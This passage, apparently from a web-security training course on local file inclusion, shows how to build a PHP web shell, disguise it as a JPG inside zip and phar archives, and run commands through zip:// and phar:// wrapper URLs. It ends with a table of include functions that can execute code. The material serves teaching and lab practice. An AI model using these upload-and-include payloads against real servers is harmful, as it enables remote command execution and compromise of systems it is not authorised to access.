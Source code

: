 ```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### PHAR Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell-session
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

## Log Poisoning

As was the case in the previous section, any of the following functions with `Execute` privileges should be vulnerable to these attacks:

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |        ✅         |      ✅      |       ✅        |
| `require()`/`require_once()` |        ✅         |      ✅      |       ❌        |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |        ✅         |      ✅      |       ❌        |
| **Java**                     |                  |             |                |
| `import`                     |        ✅         |      ✅      |       ✅        |
| **.NET**                     |                  |             |                |
| `include`                    |        ✅         |      ✅      |       ✅        |
